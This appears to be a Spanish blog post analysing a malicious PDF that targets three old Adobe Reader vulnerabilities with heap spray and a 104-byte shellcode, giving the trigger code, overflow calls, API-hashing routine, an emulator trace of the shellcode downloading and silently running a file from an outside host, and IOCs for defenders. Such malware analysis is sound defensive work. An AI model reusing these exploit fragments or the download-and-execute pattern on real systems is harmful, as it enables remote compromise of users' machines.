








+++
date = "2025-08-30"
title = "Análisis de Malware: JavaScript y Shellcode en Adobe"
description = "Estudio técnico de un documento PDF malicioso que utiliza múltiples exploits de Adobe Reader para ejecutar una shellcode de 104 bytes mediante técnicas de heap spray."
[taxonomies] 
tags = ["Análisis de Malware"]
[extra]
image = "pdf.jpg"
+++

En el panorama del malware, los documentos PDF han sido durante mucho tiempo uno de los vectores de ataque más populares. Gracias a las vulnerabilidades en Adobe Reader y sus complementos, un archivo aparentemente inofensivo puede convertirse en el punto de entrada para comprometer un sistema.

En este artículo, analizaremos un PDF malicioso real que explota diferentes vulnerabilidades según la versión del lector instalada, y veremos cómo integra una **shellcode muy compacta (104 bytes)** para descargar y ejecutar un payload remoto.

## Identificación de la Muestra y Triaje Inicial

El archivo malicioso bajo análisis es un **PDF versión 1.3** con un tamaño de solo **17 KB**. A primera vista, no incluye objetos Flash ni multimedia incrustada, pero identificamos rápidamente **varios flujos (streams) de JavaScript** ocultos dentro del documento. Estos scripts se activan automáticamente a través de la directiva `/OpenAction`, lo que garantiza que el código malicioso se ejecute tan pronto como se abra el archivo en Adobe Reader.

Para identificar la muestra, calculamos los siguientes hashes:

- **MD5**: `9e4938009e8d3b06442b727e73a7958c`
- **SHA-1**: `139ac50c3f7e2def20be4077a59941235e0098ff`
- **SHA-256**: `0b3b3b22c8a6e3474150ea1cb8ab494413d3a641d475916114b8c4a94393f753`

Una comprobación en **VirusTotal** mostró una alta tasa de detección en múltiples motores de antivirus, confirmando que el documento ya estaba marcado como malicioso.


El análisis de la estructura interna mediante **PDFStreamDumper** reveló tres objetos JavaScript sospechosos, lo que apunta claramente a una configuración de explotación intencionada en lugar de un documento benigno.




Utilizando la información recopilada, podemos resumir los metadatos extraídos del sandbox online:

|Campo|Valor|
|---|---|
|**MD5**|`9e4938009e8d3b06442b727e73a7958c`|
|**SHA-1**|`139ac50c3f7e2def20be4077a59941235e0098ff`|
|**SHA-256**|`0b3b3b22c8a6e3474150ea1cb8ab494413d3a641d475916114b8c4a94393f753`|
|**Vhash**|`92ed1bde3b4201a28f31eb183acad4fc8`|
|**SSDEEP**|`192:T0G2mJhASZy09x86Oly09x8Dvj5lRZly09x8SRZkjXmdfRZo5suB:THJPZy09x8Dly09x8/5hly09x8y1o5T`|
|**TLSH**|`T198726952AF9813A598604DF52349361724F2DE2F28D9319AE6D11E73B03EB13ECE9374`|
|**Tipo de Archivo**|PDF, document, pdf|
|**Magic**|PDF document, version 1.3, 0 pages|
|**TrID**|Adobe Portable Document Format (100 %)|
|**Tamaño**|17.06 KB (17,467 bytes)|

El archivo se identifica como un **documento PDF, versión 1.3**, con un tamaño total de **17,467 bytes**. No se observaron objetos Flash ni rastros multimedia, aparte de los tres flujos de JavaScript. La estructura de objetos indica claramente el **uso deliberado de `/OpenAction` en el objeto raíz**, diseñado para activar la ejecución de código malicioso nada más abrir el PDF.

## Flujo de Ejecución del PDF Malicioso

La ejecución del malware dentro del PDF se puede dividir en varias etapas:

### Fase 1 – Activación Automática

Cuando se abre el PDF, el visor procesa la siguiente entrada en el **objeto 1**:

```

/OpenAction << /JS (this.BXcfTYewQ()) /S /JavaScript >>

````

Esta directiva asegura que la función **BXcfTYewQ()** se ejecute inmediatamente en el contexto de Adobe Reader.

### Fase 2 – Desofuscación y Definición Dinámica

La definición real de **BXcfTYewQ** se encuentra en el **objeto 13**, envuelta en dos capas de `eval` y un gran bloque `String.fromCharCode(...)` que reconstruye el script completo en tiempo de ejecución.



Una vez embellecido con una herramienta como **JS Beautifier**, el código se vuelve más legible. Podemos ver que define dinámicamente:

- **Funciones auxiliares** (`util_printf`, `collab_email`, `collab_geticon`, `pdf_start`).
- **Inyección de shellcode** a través de `unescape()` y preparación de un *heap spray*.

Estas funciones contienen la lógica para explotar varias **vulnerabilidades de Adobe Reader (CVEs)**. El script termina llamando a:

```javascript
pdf_start();
````


### Fase 3 – Detección de la Versión del Lector PDF

Dentro de `pdf_start()`, el script recupera la versión de Adobe Reader:

JavaScript

```
function pdf_start() {
    var version = app.viewerVersion.toString();
    version = version.replace(/\D/g, '');
    var varsion_array = new Array(version.charAt(0), version.charAt(1), version.charAt(2));

    if ((varsion_array[0] == 8) && (varsion_array[1] == 0) ||
        (varsion_array[1] == 1 && varsion_array[2] < 3)) {
        util_printf();
    }

    if ((varsion_array[0] < 8) ||
        (varsion_array[0] == 8 && varsion_array[1] < 2 && varsion_array[2] < 2)) {
        collab_email();
    }

    if ((varsion_array[0] < 9) ||
        (varsion_array[0] == 9 && varsion_array[1] < 1)) {
        collab_geticon();
    }
}
```

Por ejemplo, la versión **"8.1.1"** se convierte en **"811"** para la comparación numérica, permitiendo que el script bifurque el ataque según el entorno.

### Fase 4 – Selección del Vector de Ataque

Dependiendo de la versión detectada, se activa uno de los tres exploits:

- **Opción A – util_printf() (CVE-2008-2992)** Aplicable a las **versiones 8.0.0–8.1.2**.
    
    Se prepara un _heap spray_ con **bloques de 0x40000 bytes** que contienen un _NOP sled_ y la shellcode. Luego se realiza la llamada:
    
    JavaScript
    
    ```
    util.printf("%45000f", num);
    ```
    
    Esto desborda el búfer interno de `printf`, redirigiendo la ejecución hacia la shellcode inyectada (RCE).
    
- **Opción B – collab_email() (CVE-2007-5659)** Se usa como **respaldo** si la versión es anterior a la **8.1.1** pero no cumple la primera condición.
    
    Abusa de:
    
    JavaScript
    
    ```
    collab.collectEmailInfo({ subj:"", msg:overflow });
    ```
    
    El desbordamiento ocurre en el campo `msg`, redirigiendo de nuevo la ejecución a la misma shellcode.
    
- **Opción C – collab_geticon() (CVE-2009-0927)** Utilizado como **último recurso** si Adobe Reader es anterior a la versión **9.1**.
    
    El exploit se activa con:
    
    JavaScript
    
    ```
    app.doc.Collab.getIcon(overflowString);
    ```
    

|**Versión de Adobe Reader**|**Exploit Utilizado**|**Resultado Esperado**|
|---|---|---|
|**8.0.0 – 8.1.2**|util.printf()|Ejecución Remota de Código (RCE)|
|**< 8.1.1**|collab_email()|Ejecución Remota de Código (RCE)|
|**< 9.1**|collab_geticon()|Posible RCE / DoS|
|**≥ 9.1**|Ninguno|Sin efecto|

## Análisis de la Shellcode Incrustada

El JavaScript ofuscado dentro del PDF construye un _heap spray_ que incrusta el payload como secuencias de `%uXXXX`. Para extraerlo, utilizamos un pequeño script en Python que:

1. Lee el JavaScript ofuscado y encuentra todas las apariciones de `%uXXXX`.
    
2. Para cada `XXXX`, intercambia el orden de los bytes (ej. `0x1234 -> 34 12`).
    
3. Concatena los resultados en un array de bytes.
    
4. Guarda la salida en **shellcode.bin**.
    


Como resultado, obtuvimos un **binario de 104 bytes**.

### Análisis Estático en IDA

Al cargar **shellcode.bin** en IDA se revela un flujo compacto pero totalmente funcional:

- **Resolución dinámica de APIs** – No hay importaciones directas; en su lugar, el código recorre el PEB para localizar `kernel32.dll` y `urlmon.dll`, luego calcula hashes de los nombres de las funciones de la Tabla de Exportación y los compara con valores precalculados.
    
- **Construcción de cadenas en tiempo de ejecución** – Rutas como `%TEMP%\e.exe` y la URL remota se ensamblan byte a byte usando instrucciones como `stosb`, `stosw` y `stosd`.
    
- **Lógica de descarga y ejecución** – Tras resolver `URLDownloadToFileA` y `WinExec`, la shellcode descarga el payload y lo ejecuta con `SW_HIDE`, llamando finalmente a `ExitThread(0)`.
    


Es notable que el autor lograra encajar toda esta funcionalidad en solo **104 bytes**, implementando **hashing ROR13** y evitando referencias estáticas para dificultar la detección por antivirus.

### Recorrido del PEB y Hashing de Funciones

La rutina que resuelve las APIs comienza leyendo el **registro de segmento fs:[30h]** para obtener la dirección del PEB (Process Environment Block). Desde allí:

1. Accede a `PEB->Ldr.InInitializationOrderModuleList` para iterar los módulos cargados.
    
2. Para cada entrada (`LDR_DATA_TABLE_ENTRY`), recupera el nombre del módulo (ej. _kernel32.dll_).
    
3. Recorre el Directorio de Exportaciones, extrae cada nombre de función y calcula un hash ROR13:
    
    ```
    hash = ROR(hash, 13) XOR caracter
    ```
    
    Ejemplo de hashes resueltos:
    

|**Función**|**Hash (hex)**|
|---|---|
|GetTempPathA|5B8ACA33|
|LoadLibraryA|EC0E4E8E|
|URLDownloadToFileA|702F1A36|
|WinExec|0E8AFE98|
|ExitThread|60E0CEEF|

4. Si el hash calculado coincide con uno codificado en la shellcode, se recupera el puntero de la función.
    
  


Esta técnica mantiene a la shellcode independiente de direcciones absolutas y evita tablas de importación visibles.

### Ejecución Controlada con scDbg

Para validar la ejecución de forma segura, utilizamos **scDbg** con ganchos (_hooks_) interactivos y monitorización de memoria. Al ejecutar `shellcode.bin` en la dirección base **0x401000** se produjo la siguiente traza:

```
401086 GetTempPathA(len=88, buf=0x12fd80) = 25
4010B0 LoadLibraryA("urlmon.dll")
4010CA URLDownloadToFileA(
          "[http://juvitec.net/css/load.php?e=2](http://juvitec.net/css/load.php?e=2)",
          "C:\\Users\\vboxuser\\AppData\\Local\\Temp\\e.exe",0,0)
4010D7 WinExec("C:\\Users\\vboxuser\\AppData\\Local\\Temp\\e.exe", SW_HIDE)
4010E0 ExitThread(0)
```



También observamos el acceso a **fs:[30h]** y la lectura de la lista de módulos, confirmando el comportamiento descrito en el análisis estático.

## Indicadores de Compromiso (IOCs)

Durante el análisis, se identificaron varios artefactos que pueden servir como Indicadores de Compromiso (IOCs). Estos ayudan a los equipos de defensa y respuesta ante incidentes a detectar si este exploit o su payload se han ejecutado en su entorno.

|**Tipo**|**Valor**|
|---|---|
|**MD5 (PDF)**|`9e4938009e8d3b06442b727e73a7958c`|
|**SHA-1 (PDF)**|`139ac50c3f7e2def20be4077a59941235e0098ff`|
|**SHA-256 (PDF)**|`0b3b3b22c8a6e3474150ea1cb8ab494413d3a641d475916114b8c4a94393f753`|
|**URL Maliciosa**|`hxxp://juvitec.net/css/load.php?e=2`|
|**Archivo Soltado**|`%TEMP%\e.exe`|
|**Técnicas de Exploit**|CVE-2008-2992 (util.printf), CVE-2007-5659 (collab.collectEmailInfo), CVE-2009-0927 (collab.getIcon)|

```

---
¿Te gustaría que analice algún otro aspecto de la shellcode o que profundice en cómo funcionan los ataques de *heap spray* en navegadores y visores de documentos?
```